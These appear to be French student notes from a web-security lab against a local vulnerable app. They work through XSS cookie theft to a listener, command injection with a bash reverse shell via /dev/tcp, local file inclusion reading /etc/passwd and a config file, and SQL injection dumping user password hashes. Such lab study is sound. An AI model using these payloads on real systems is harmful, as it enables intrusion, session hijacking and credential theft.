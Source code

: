 # XSS

- Où puis-je injecter du code dans un site Web ?
> Dans l'url, dans un formulaire
- Où ce code sera-t-il interprété (Côté client, serveur) ?
> Coté client
- Quelles sont mes possibilités d’attaques ?
> Exécution d'un script JavaScript côté client, envoie des cookies (authentification, ...)

Afficher une popup :
```html
<script>alert('Pwet Pouet')</script>
```
	
- Comment faire une redirection en JavaScript ?
> Script avec `location.href`

Rediriger vers google :
```html
<script>location.href = "http://www.google.com"</script>
```
	
- Comment récupérer vos cookies en Javascript ?
> `document.cookie`
- Comment envoyer les cookies récupérés vers un site distant contrôlé ?
> Avec un "faux url"
- Comment faire pour monter un site distant (contrôlé) en attente des cookies ? sur Apache ? sur netcat ?
> Netcat pour l'écoute : `nc -l -p 8888`
- Comment utiliser les informations obtenues pour usurper l’identité de l’administrateur ?
> Se faire passer pour l'admin sur le site originel avec f12, stockage et cookie, phpsession
- Cette attaque fonctionne t’elle systématiquement ?
> Non car on ne peut pas toujours récupéré les cookies (httpOnly) et il faut que la personne soit déjà connecté et ça ne marche pas avec un "double facteur"

Afficher les cookies via le formulaire 
```html
<script>alert(document.cookie)</script>
```

Créer un URL qui redirige et récupère les cookies (ici localhost est notre site contrôlé):
> http://localhost/vulnerabilities/xss_r/?name=%3Cscript%3Edocument.location+%3D+%22https%3A%2F%2Flocalhost:8888%2F%27%22+%2B+document.cookie+%2B+%22%27%22%3C%2Fscript%3E#



# Injection de commande

- Comment chainer plusieurs commandes dans un Shell ? `;`
	
Obtenir `/etc/passwd`:
> `;cat ../../../../../../../etc/passwd`

- Que puis-je faire avec netcat ?
> Écouter un port, scan de port transfert de fichier
- Il y a deux versions de netcat, quelle est la différence ?
> GNU et OpenBSD, la différence principale est les arguments de la commande (par exemple, `-l [port]` (BSD) vs `-l -p [port]` (GNU))
- Quelles sont les alternatives pour obtenir un shell ?
> Reverse shell ou shell binding (l'attaquant se connect à l'attaqué)
- Quel langage peut être utilisé ?
> On peut utiliser le shell pour lancer n'importe quel commande, donc possibilité d'utiliser des langages interpretés : bash, perl, python...

Obtenir un shell interactif: 
> Coté attaquant listener : `nc -l -p 4444`

> Coté injection sur le serveur (deux pas obligatoire): `;bash -c "bash -i >& /dev/tcp/172.17.0.1/4444 0>&1"`

# Local file injection

Afficher /etc/passwd (on remplace le include php par le chemin du fichier)
> http://localhost/vulnerabilities/fi/?page=../../../../..//etc/passwd

- Pourquoi ai-je une page blanche ?
> Car c'est un fichier PHP interprété
- Afficher le contenus du fichier de configuration Mysql
> http://localhost:8080/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=../../../../../../../var/www/html/config/config.inc.php
			
1. On appelle la fonction php
2. On utilise filter (appelé à l'URL) et convert en base 64 (sinon interprèté par le navigateur)
3. Puis chemin du fichier
4. (opt) Puis on décode avec par exemple : https://www.base64decode.org/


# Injection MySQL
- Pourquoi ce caractère provoque-t-il une erreur ? Parce qu'on concatène une chaine de caractère
- En quoi ce type de message peut-il nous aider ? C'est un "test" sensible à l'injection SQL, on peut éditer la requête
	
	Le caractère qui génère une erreur et permet une injection -> ' 
	On va remplacer ['id] par ['''] ce qui génère l'erreur
	
- Quels opérateurs SQL nous permettent de deviner le nombre de colonnes ? Union all (permet de concaténer la requête ID avec la requête de l'attaquant)
- A votre avis, pourquoi est-il nécessaire de connaître le nombre de colonnes ? Ça permet de sélectionner quel donnés affiché 
- A votre avis, à quoi ces colonnes visibles pourront-elles servir ? Servirons a affiché les données sensible qui nous intéressent

Trouver le nombre de colonne visible  :
```sql
' || 1 = 1 UNION ALL SELECT 1, 2; #
```
On bourre jusqu’à a arriver au bon nombre pour ne pas qu'on ait d'erreur, # pour passer le reste du code en commentaire
	
Afficher le nom des différentes table et base : 
```sql
' UNION ALL SELECT TABLE_NAME, TABLE_SCHEMA from information_schema.tables; #
```

Trouver les nom de la table user :

- Quelle table contient le nom de toutes les colonnes connues de MySQL ? INFORMATION_SCHEMA.COLUMNS (norme)

Pour trouver le nom des column de la table user :
```sql
' UNION ALL SELECT COLUMN_NAME, '' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users'#
```

Pour trouver le password des user (hash md5 qui peux se casser sur internet)
```sql
' UNION ALL SELECT first_name, password FROM users #
```
